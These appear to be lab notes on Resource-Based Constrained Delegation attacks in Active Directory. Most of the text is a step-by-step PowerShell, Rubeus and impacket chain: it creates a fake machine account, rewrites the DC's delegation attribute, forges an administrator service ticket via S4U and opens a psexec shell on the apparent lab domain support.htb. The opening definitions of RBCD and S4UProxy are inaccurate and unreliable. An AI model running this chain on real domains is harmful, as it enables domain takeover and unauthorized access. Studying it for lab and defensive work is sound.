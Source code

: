 
## Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

## Configuring RBCD

**RBCD** is configured by setting the `**msDS-AllowedToActOnBehalfOfOtherIdentity**` attribute. This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.

To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as `GenericAll`, `GenericWrite`, and `WriteDACL`. This access is necessary to modify the Resource-Based Constrained Delegation (RBCD) settings on the targeted resource.

## RBCD Attack Requirements and Flow

## Attack Requirements

- Obtain access to an account with Write permissions to modify a computer object’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting permissions to the compromised account.
- Control an object with a Service Principal Name (SPN). This could involve using an existing computer where we hold administrator privileges or creating a fake computer object if necessary.

## Attack Steps

The steps below summarize the RBCD attack to understand the attack flow:

1. The attacker gains access to a domain user account that can add computers to the domain. By default, domain users are part of the Authenticated Users group, allowing them to add up to 10 computers to the domain.

**_Note:_** _Remember, it is not always the case; sometimes administrators will set the_ `_ms-ds-machineaccountquota_` _attribute to 0 to prevent these attacks.)_

2. The compromised user must have Write privileges over the targeted computer. Required permissions include `GenericAll`, `GenericWrite`, or `WriteDACL`.

3. The attacker modifies the target computer’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify a service account they control.

4. The attacker requests a service ticket to impersonate a high-privileged user, such as a domain admin, to access the target computer.

5. Using the issued ticket, the attacker gains access to the target computer.
## Tools Required

#### 1. [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
#### 2. [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
#### 3. [Powershell AD module](https://github.com/samratashok/ADModule.git)
#### 4. [Impacket Tools](https://github.com/fortra/impacket)
#### 5. [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

## Practical Exploitation

##### Upload the FIles to the server using Evil-WinRM
```Powershell
upload /path-to-the-file/{Files}.ps1
```

##### Import all the Modules
```Powershell
. .\Powermad.ps1
. .\PowerView.ps1
Import-Module .\Microsoft.ActiveDirectory.Management.dll
. .\ActiveDirectory.psd1
```

Next, we check the value of the `ms-ds-machineaccountquota` attribute with the Active Directory `Get-ADDomain` command to see if our domain user can add machines to the domain.

##### Get the machine quota
```Powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

![[RBCD-1.webp]]
Also, we check the `msds-allowedtoactonbehalfofotheridentity` attribute with the PowerView`Get-DomainComputer` command to see how many services are listed on the computer.
```cmd
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![[RBCD-2.webp]]

### Chaining it together

First, we leverage [[#1. [PowerMad](https //github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) |PowerMad]] to create a new machine account using our `GenericAll` privileges on the domain.

```Powershell
New-MachineAccount -MachineAccount PC1 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
verify that it is added correctly to the domain by running the `Get-DomainComputer` command.
```Powershell
Get-DomainComputer PC1
```

### Here there are 2 ways to proceed 
#### 1. In first, we set the security descriptor for our`PC1` principal and add it to the `msds-allowedtoactonbehalfofotheridentity` attribute value of the DC computer object.
```Powershell
#Change the SID in this command with the SID from your created fake machine  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"  
  
$SDBytes = New-Object byte[] ($SD.BinaryLength)  
  
$SD.GetBinaryForm($SDBytes, 0)  
  
#Replace the DC machien with any target machhine  
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
NOTE: This method is suggested by bloodhound which doesnt work mostly but you can give it a try.
#### 2. In this we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```


#### After selecting any of the above method we can proceed from below

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```Powershell
.\Rubeus.exe hash /password:123456 /user:PC1$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```bash
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```bash
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
```

